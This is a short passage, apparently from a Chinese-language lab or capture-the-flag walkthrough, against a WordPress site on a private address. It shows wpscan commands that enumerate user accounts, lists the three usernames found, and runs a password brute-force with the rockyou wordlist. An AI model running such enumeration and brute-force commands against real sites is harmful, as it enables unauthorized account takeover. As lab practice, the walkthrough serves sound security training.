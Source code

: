 

利用wpscan枚举用户信息

```
wpscan --url http://192.168.1.6/  -e u
```

![image-20250405212311011](./assets/image-20250405212311011.png)

![image-20250405212316602](./assets/image-20250405212316602.png)

- c0ldd
- philip
- hugo



爆破用户密码

```
wpscan --url http://192.168.1.6 -P /usr/share/wordlists/rockyou.txt
```
